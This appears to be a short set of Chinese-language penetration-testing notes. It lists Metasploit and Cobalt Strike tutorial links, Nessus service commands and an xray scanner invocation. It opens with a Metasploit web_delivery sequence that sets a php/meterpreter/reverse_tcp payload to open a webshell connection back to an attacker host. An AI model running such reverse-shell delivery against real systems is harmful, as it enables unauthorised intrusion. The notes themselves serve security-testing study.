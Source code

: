 webshell连接

```
search web_delivery
set target 1（show targets）
set lhost
set lport
set payload php/meterpreter/reverse_tcp （payload要和targets匹配）
run
```



[MSF渗透常用操作指南 - 跳跳糖 (tttang.com)](https://tttang.com/archive/1432/)

[Metasploit之正反向payload生成与实战 | C0cho's blog](https://choge.top/2019/10/22/msf之正反向payload生成与实战/)

[MSF之命令笔记篇 | sh1yan'blog](http://sh1yan.top/2019/07/28/MSF-Command-Notes/)

[MSF后渗透利用整理|MSF命令大全 | Mr.Wu](https://www.mrwu.red/web/2674.html)





# cs

[全网最全的Cobalt Strike使用教程系列-基础篇 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/290134.html)

[全网最全的Cobalt Strike使用教程-进阶篇 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/290333.html)







# nessus



```
net start "Tenable Nessus"
net stop "Tenable Nessus"
```



# xray

```
.\xray_windows_amd64.exe webscan --listen 127.0.0.1:7777 --html-output xray-testphp.html
```

[xray 安全评估工具文档](https://docs.xray.cool/#/)

# ftp
